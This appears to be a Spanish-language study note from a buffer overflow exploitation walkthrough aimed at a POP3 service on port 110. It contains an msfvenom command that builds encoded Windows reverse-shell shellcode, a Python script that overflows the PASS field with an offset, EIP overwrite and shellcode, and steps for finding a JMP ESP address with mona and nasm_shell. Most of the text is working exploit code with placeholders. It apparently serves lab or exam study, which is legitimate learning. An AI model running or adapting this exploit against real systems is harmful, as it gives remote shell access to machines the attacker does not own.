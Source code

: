 creando **shellcode**

```sh
msfvenom -l payloads

msfvenom -p windows/shell_reverse_tcp --platform windows -a x86 LHOST=<tu_ip> LPORT=<port> -f c -e x86/shikata_ga_nai -b '<badchars>' EXITFUNC=thread
```

modificamos el script nuevamente y pegamos el shellcode creado

```python
#!/usr/bin/python3

import socket
import sys

# Variables globales
ip_address = "<ip_mauina_victima>"
port = 110
offset = 4654

before_eip = b"A"*offset
eip = b"B"*4
shellcode = (b<shellcode>)

payload = before_eip + eip + shellcode

def exploit():
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((ip_address, port))
	banner = s.recv(1024)
	s.send(b"USER user" + b'\r\n')
	response = s.recv(1024)
	s.send(b"PASS " + payload + b'\r\n')
	s.close()

if __name__ == '__main__':
	exploit()
```

```
!mona modules
```

escogemos un modulo que contenga las primeras 3 filas en False

```bash
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
# ENTER

jmp ESP
```

![[Pasted image 20231019181332.png]]
```
\xFF\xE4
```
